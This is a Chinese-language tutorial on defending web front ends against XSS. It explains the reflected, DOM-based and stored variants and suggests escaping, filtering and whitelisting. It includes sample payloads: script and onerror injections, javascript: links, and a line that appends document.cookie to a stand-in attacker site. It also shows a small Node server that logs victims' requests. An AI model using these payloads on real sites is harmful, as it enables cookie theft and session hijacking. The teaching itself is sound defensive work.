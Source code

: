 # 前端安全之防御XSS跨站脚本攻击
最近经常被人问到前端安全问题，虽说这方面作为前端不常遇到，但一直被人纠着问就很烦，怒学之。
安全问题通常有XSS跨站脚本攻击和CSRF跨站请求伪造，将分为两篇文章介绍。本文先研究第一种--XSS跨站脚本攻击


## 受攻击原因
页面被注入了恶意代码，当用户访问网页时，嵌入的代码将被执行，从而受到恶意攻击

## xss攻击分类
### 反射型
反射型主要来自用户的主动请求一个带攻击的链接<br>
当用户点击带有xss攻击的链接 `http://test?query=<script>alert('xss')</script>` 时，细分为两种：

* 服务端获取url参数name，并将name解析到html中返回给客户端<br>伪代码:
```html
     <html>
       <div>...</div>
       <script>alert('xss')</script>
     </html>
```
* 服务端没有解析url参数，返回正常的页面。但客户端在js执行过程中，获取了url参数，并将其写入到页面中。该方法也称为DOM型xss攻击<br>
伪代码:
```js
     var query = url.query
     document.body.appendChild(query)
     $('div').html(query)
```
上述两种都将执行注入的脚本

### 存储型
存储型就是将xss攻击代码储存到数据库中，当用户去下次在客户端请求数据时，获取到xss攻击代码。<br/>典型的场景是在提交评论的时候，攻击者将`<script>alert('xss')</script>`提交到服务器。当用户在获取评论数据的时候，服务端会返回这段代码, 从而收到攻击


## 常见的xss攻击场景
* 注入了a标签，href带有xss脚本 
  
  ```html
  (1)
     `<a href="javascript:alert(xss)" ></a>`
  (2)
     var xsshref = 'http://xss.com?' + document.cookie // 攻击者的网站
     <a href=xsshref></a>
  ```
  
* html标签, 内联事件带有xss脚本
  ```html
  1)<div onclick="alert(xss1)" onmouseover="alert(xss2)"><div>
  2)<img src='xss' onerror="alert(xss)" />
  ```

* img, link标签请求攻击者的资源

 ```js
  // 攻击者 nodejs
  const http = require('http')
  
  http.createServer(function (request, response) {
    console.log(request) // 在这里可以获取img的请求
    response.writeHead(200, {'Content-Type': 'text/plain'});
    response.end('');
  }).listen(8080);
  
  // 受攻击者网站
  <img src='http://xss:8080'/>
  <link href="http://localhost:8080" rel="stylesheet">
 ```

* 带有可执行脚本的style标签或者eval语句

  ```html
  (1)
  <style>
    alert('xss')
  </style>
  (2)
  <div id='xss'>alert('xss')</div>
  document.addEventListener('click', function(event) {
  	eval(event.target.innerHTML)
  })
  ```



## 如何防御

xss防御最好还是需要后端进行，尤其是存储型xss攻击。但通过观察xss攻击原理，我们可以发现，对于反射型，前端还是可以有所作为

* 对用户的数据进行转义编码，转化为纯文本而不是代码

* 过滤危险的DOM节点,  如 img，style

* 过滤危险的节点属性，如 on*, href, src，尽量避免用内联事件，用`addEventListener`代替

  ```js
  // 过滤内联事件 // 在addEventListener 中过滤
  <div onclick="alert(xss)" id='xss'>xss</div>
  
  var attributes = document.getElementById('xss').attributes
  for (attr of attributes) {
      if(/^on./.test(attr.name)) {  // 拦截on*事件
        filter(attr)
      }
    }
  }
  function filter(attr) {
    document.addEventListener(attr.name.substr(2), function(e) {
      attr.name = null  //删除内联事件
      myFunc() // 改写事件
    }, true);
  }
  
  ```

* 对`javascript:`，`eval`这类关键字或者语句建立黑名单，对其进行过滤删选

  ```js
  // 如果是a标签且存在'javascript:', 则改写href属性
  if(element.tagName === 'A' && element.protocol === 'javascript:') {
    elem.href = 'javascript:void(0)';
  }
  ```

* 对资源文件建立白名单域名，如img的src属性值，href值只能为白名单下的资源